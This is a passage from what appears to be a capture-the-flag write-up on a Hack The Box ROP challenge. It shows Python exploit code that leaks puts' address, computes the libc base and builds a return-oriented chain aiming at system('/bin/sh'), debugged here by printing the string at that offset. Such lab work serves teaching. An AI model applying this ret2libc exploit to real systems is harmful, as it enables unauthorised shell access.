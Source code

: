 What? "%s%s%s%s%s%s%s%s" not found? who asked you to run that? the only explanation that I can think of is that it may be that the offset of `"/bin/sh"` was wrong. And that we have sent the wrong string.

To make sure, let's back up a little bit and try to put that string in the `puts` function and see what string is in that offsets, similar to what we did to leak the address - but this time we print a string.

The code:

```Python
def remote(data):
    remote_address = (("docker.hackthebox.eu",35034))
    conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    print "connecting to ", remote_address
    conn.connect(remote_address)

    # server's initial message: "ROP ME outside..."
    print conn.recv(1024)

    print "connected. sending data"
    conn.send(bytes(data + "\n"))

    ans = conn.recv(1024)

    # Only take the 7 first bytes of the input
    # Because the rest of it will be "ROP Me outside ..." again
    # we don't care about that, we care about the address only
    ans = ans[:7]      
    ans = ans[:-1]  # omit the 0a
    ans = ans[::-1]  # reverse the order

    print "Virtual address of puts is: 0x" + binascii.hexlify(ans)

    libc_base = compute_libc_base_from_puts(int(binascii.hexlify(ans), 16))
    print "Base of libc:", hex(libc_base)
    print "Address of system: ", hex(libc_base + 0x45390)
    print "Address of binsh: ", hex(libc_base + 0x18cd57)

    # Craft new payload
    payload2 = PAD                      # 72 bytes of "A"s
    payload2 += gadget_pop_rdi_ret      # return there when done with main

    # address of "/bin/sh", this will be popped to RDI
    payload2 += ptr(libc_base + 0x18cd57)

    # Instead of calling system now, let's call puts
    payload2 += puts_plt

    # fflush
    payload2 += gadget_pop_rdi_ret
    payload2 += NULL
    payload2 += fflush_plt

    ## WILL RETURN SOON
    # Address of system. return here after you pop
    # payload2 += ptr(libc_base + 0x45390)    


    # Send the payload
    conn.send(payload2 + "\n")

    # Get back an answer, we expect that system("/bin/sh") will run
    print conn.recv(1024)
```

[1]: https://linux.die.net/man/3/puts
[2]: https://linux.die.net/man/3/fflush
[3]: https://linux.die.net/man/3/fgets
[4]: https://libc.blukat.me